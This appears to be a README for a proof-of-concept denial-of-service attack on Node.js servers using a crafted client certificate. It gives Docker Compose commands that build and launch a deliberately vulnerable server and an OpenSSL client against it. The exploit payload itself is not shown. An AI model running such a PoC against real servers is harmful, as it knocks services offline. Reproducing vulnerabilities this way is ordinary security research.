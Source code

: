 # DoS node js with crafted client certificate

## Build

```docker compose -f poc.yml build```

## Run

While testing, internal docker name resolution did not work from busybox image. You need to provide IP address of the server which is done in the ossl_client docker run oneliner.

```
docker compose -f poc.yml up -d node_server
docker compose -f poc.yml run -e HOSTNAME=`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $(docker ps -qf name=^/vulnerable_nodejs_server.*$)` ossl_client
```
